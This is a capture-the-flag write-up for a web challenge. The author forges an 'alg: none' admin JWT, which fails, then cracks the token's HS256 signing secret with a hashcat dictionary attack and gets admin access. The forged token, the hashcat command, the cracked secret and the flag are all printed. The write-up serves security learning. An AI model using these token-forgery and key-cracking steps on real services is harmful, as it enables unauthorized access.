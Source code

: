 # Super Admin

The challenge provides the following url: https://bluehens-web-cookies.chals.io/

![home](super_admin_1.png)

After a little of anaylisis on requests using Burpsuite, i noticed the following:

1. the **"User"** button triggers a request for a new JWT token containing the following attributes:

    ```json
    {
    "alg": "HS256",
    "typ": "JWT"
    },
    {
    "role": "user",
    "iat": 1698755867
    }
    ```

2. the **"Go To Profile**" button is showing the personal page of the user according to its role, which is retrieved from the jwt token itself

I first tried to forge a JWT token in the following way:

```json
{
"alg": "none",
"typ": "JWT"
},
{
"role": "admin",
"iat": 1698755867
}
```
    
     eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2OTg3NTU4Njd9.

but it didn't work; it was clear at this point that the token must be correctly signed in order to be accepted.

I used Hashcat to perform a dictionary attack on the server JWT token and try recover the key used to perform the signature:

    hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODc1NTg2N30.5UFbyVeIZKq6aSffUWMZNmehBCLJm6HlesdJ1HuJcpk" rockyou.txt

and it worked: 

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODUzMDc0NX0.yJpwNhW6KG2ATDFg5Utkcv2wDDJ_cRyWXf25uCaFufo:password1

At this point i was able to forge a valid "admin" JWT and obtain the flag:

    UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}

